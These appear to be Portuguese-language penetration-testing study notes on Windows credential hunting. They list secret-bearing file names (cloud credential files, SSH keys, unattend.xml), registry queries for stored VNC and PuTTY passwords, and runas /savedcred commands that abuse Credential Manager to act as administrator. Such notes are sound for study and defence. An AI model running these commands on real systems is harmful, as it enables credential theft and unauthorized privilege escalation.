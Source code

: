 - Filtra por arquivos com nome "passw"
- ``` C:\> type output.txt | findstr /i passw ```

https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dir#examples


## Nomes e Extenções de arquivos interessantes para verificar

- Extenções: install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .conf, ,ini, .xml, .txt, .gpg, .pgp, .p12, .der, .crs, .cer, id_rsa, id_dsa, .ovpn, vnc,
ftp, ssh, vpn, git, .kdbx, .db

- Arquivos: unattend.xml, Unattended.xml, sysprep.inf, sysprep.xml, VARIABLES.DAT, setupinfo, setupinfo.bak, web.config, SiteList.xml, .aws\credentials, .azure\accessTokens,json, .azure\azureProfile.json, gcloud\credentials.db, gcloud\legacy_credentials, gcloud\access_tokens.db

- ``` C:\> type output.txt | findstr /i algumas extenção ```



## Arquivos nos Registries 

- ``` req query "HKCU\Software\ORL\WinVNC3\Passowrd" ```
 
- ``` req query "HKCU\Software\TightVNC\Server" ```

- ``` req query "HKCU\Software\SimonTatham\PuTTY\Sessions" ```

- ``` req query "HKCU\Software\SimonTatham\PuTTY\Sessions\local" ```


- ``` req query HKLM /f password /c REG_SZ /s ```

- ``` req query HKLM /f password /c REG_SZ /s ```



## Abusing Credential Manager

- Credential Manager
  - O Credential Manager é uma espécie de cofre digital dentro do sistema Windows. O Windows armazena credenciais de registry, como usernames e senhas...

- Do ponto de vista do invasor, geralmente você não tem acesso a uma GUI... Então você usa a linha de comando. Na linha de comando existe uma ferramenta chamada "cmdkey".

  - O cmdkey também permite listar essas informações.
    - ``` C:\> cmdkey /list ```

- We can access actualy the Admin home directory and run processes as Admin:
  - ``` C:\> runas /user:admin cmd.exe``` <===== precisa de admin pass

  - ``` C:\> runas /savedcred /user:admin cmd.exe ```
    - windows vai até Credential Manager, verifica o usuário admin (consulta o banco de dados), extrai a senha do usuário admin e executa o processo. (execute como administrador com integrity level medium)

- Podemos listar todos os diretórios aos quais não temos acesso.
  - ``` C:\> runas /savedcred /user:admin "c:\windows\system32\cmd.exe /c dir /b /a /s c:\users\admin > c:\output-admin.txt" ```
    - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

